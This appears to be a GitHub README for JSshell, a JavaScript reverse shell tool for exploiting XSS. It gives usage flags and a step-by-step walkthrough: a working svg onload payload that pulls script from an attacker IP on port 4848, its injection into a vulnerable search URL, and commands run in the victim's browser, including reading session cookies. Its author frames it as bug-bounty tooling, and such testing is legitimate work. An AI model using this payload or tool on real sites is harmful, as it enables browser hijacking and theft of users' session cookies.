 # JSshell (version 2.9)
JSshell - a JavaScript reverse shell. This using for exploit XSS remotely, help to find blind XSS, ...

This tool works for both Unix and Windows operating system and it can running with both Python 2 and Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from other javascript shells).

### New in JSshell version 2.9
Updated in the new version of JShell 2.9:

- New JSshell command: `cookie` -> allows to view the cookies of the current user who established the shell
- Support javascript function:
```sh
js-2.9$ function new() {
>         new = 'New update: Support javascript function';
>         confirm(new);
>         }
js-2.9$ 
js-2.9$ new()
```
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically close):  `-w`
#### Execute a command when got the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is an example for step-by-step to exploit remote XSS using JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   js.py
~# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL) that vulnerable to XSS:

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'hacked'
$ alert(test)
$
```
And the browser got an alert:  `hacked`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This created by shelld3v, hacking at HackerOne and Bugcrowd! This tool is inspired by the BruteLogic payload.

